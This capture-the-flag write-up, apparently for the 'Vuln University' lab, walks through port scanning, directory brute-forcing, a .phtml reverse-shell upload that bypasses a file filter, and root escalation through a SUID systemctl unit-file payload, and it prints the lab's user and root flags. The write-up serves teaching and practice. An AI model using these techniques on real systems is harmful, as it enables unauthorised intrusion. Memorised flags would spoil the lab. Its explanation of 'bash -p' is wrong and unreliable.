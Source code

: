 Task 1  Deploy the machine :
----

1.Deploy the machine
>>No answer needed

----

Task 2  Reconnaissance :
----

>>GAINED THESE INFORMATION VIA NMAP :
```bash
nmap -sC -sV 10.10.252.214 
```

1.There are many nmap "cheatsheets" online that you can use too.
>>No answer needed

2.Scan the box, how many ports are open?
>>6

3.What version of the squid proxy is running on the machine?
>>3.5.12

4.How many ports will nmap scan if the flag -p-400 was used?
>>400

5.Using the nmap flag -n what will it not resolve?
>>DNS

6.What is the most likely operating system this machine is running?
>>Ubuntu

7.What port is the web server running on?
>>3333

8.Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)
>>No answer needed

----

Task 3  Locating directories using GoBuster :
----

>>ACCESSED THE WEBISTE VIA : http://10.10.252.214:3333
>>WEBSITE NAME : Vuln University 
>>ABOUT THE WEBSITE : This website is about "university"
>>HOME PAGE OF THE WEBSITE ACCESSED : http://10.10.252.214:3333/index.html
>>WEB CONTENTS OF HOME PAGE : The Contents are "COURSE","TEACHER","EVENTS","CONTACT","APPLY NOW" and so on..
>>ACCESS CONTENTS : If we access the contents it will redirect "index.html" to "#" which is 
http://10.10.252.214:3333/#

>>FOUND THE DIRECTORY INFORMATION VIA GOBUSTER :
```bash
gobuster dir -u http://10.10.252.214:3333 -w /usr/share/wordlists/dirbuster/
directory-list-lowercase-2.3-small.txt
```
>>FOUND THE HIDDEN FILE UPLOAD DIRECTORY : /internal/

1.Lets first start of by scanning the website to find any hidden directories. To do this, we're going to use GoBuster.
>>No answer needed 

2.What is the directory that has an upload form page?
>>/internal/

----

Task 4  Compromise the webserver :
----

>>UPLOADING FILES IN THE WEBSITE VIA UPLOADS DIRECTORY ON http://10.10.252.214:3333/internal/ BUT THE PHP EXTENSION IS BLOCKED.
>>TRYING THE SAME FILE BUT WIHT SOME EXTENSIONS LIKE .php2 , .php3 , .phtml ON THE WEBSITE 
>>AT THAT TIME .phtml WORKED AND THE UPLOADS DISPLAY THE MESSAGE "SUCCESS"
>>MADE A REVERSE-SHELL PAYLOAD WITH .phtml EXTENSION[specify the listening port and port number] AND UPLOADED THE PAYLOAD SUCCESSFULLY.
>>TO MAKE A REVERSE-SHELL CONNECTION MAKE NETCAT SESSION. 
```bash   
nc -lvnp 9001
```
>>ACCESS THE WEBSITE WITH http://10.10.252.214:3333/internal/uploads/reverse-shell-php.phtml TO MAKE A REVERSE CONNECTION TO THE LOCAL MACHINE. 
>>TO GET USERNAME WHO MANAGES THE WEBSERVER NAVIGATE TO 
```bash
cd home
ls
```
THERE IS THE USERNAME "bill"
>>TO GET THE USER FLAG 
```bash
cd bill
ls
cat user.txt
```

1.Try upload a few file types to the server, what common extension seems to be blocked?
>>.php

2.To identify which extensions are not blocked, we're going to fuzz the upload form.
>>No answer needed

3.Run this attack, what extension is allowed?
>>.phmtl

4.Make a netcat connection?
>>No answer needed

5.What is the name of the user who manages the webserver? 
>>bill

6.What is the user flag?
>>8bd7992fbe8a6ad22a63361004cfcedb

----

Task 5  Privilege Escalation :
----

>>THIS IS COMMAND TO CONVERT THE SHELL AS REGULAR "bash" SHELL
```python
python -c "import pty; pty.spawn('/bin/bash')"
```
```bash
$
www-data@vulnuniversity:/$ 
```

>>THIS IS THE COMMAND TO FIND THE SUID PERMISSION.THERE WE NOTICE /bin/systemctl (Systemctl is the tool/service used to control the systemd init service)  
```bash
www-data@vulnuniversity:/$ find/ -user root -perm -4000 -print 2>/dev/null
[/bin/systemctl]
```

>>THIS IS THE PAYLOAD TO ESCALATE OUR PRIVELEGE AS ROOT 
```bash
 #Create an environment variable!. whixh makes a temporary service file
TF=$(mktemp).service
 #Create a unit file and assign this to the environment variable
echo '[Service]
 #Here we mentioned the type of this command execution 
Type=oneshot
 #This command will execute as root and "setuid" to /bin/bash
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
 #This is the path where we execute above commands to gain the root privelege  
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

>>THIS COMMAND USED TO ESCALATE OUR PRIVELEGE AS ROOT. 
>>["bash -p" THIS COMMAND USED TO DISPLAY READLINE FUNCTION NAMES AND BINDINGS IN SUCH A WAY THA THEY CAN BE INPUT OR IN A READLINE INITIALIZATION FILE] .
```bash
www-data@vulnuniversity:/$ bash -p 
bash-4.3# cd root
bash-4.3# ls 
bash-4.3# cat root.txt 
```

1.On the system, search for all SUID files. What file stands out?
>>/bin/systemctl

2.Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
>>a58ff8579f0a9270368d33a9966c7fd5

----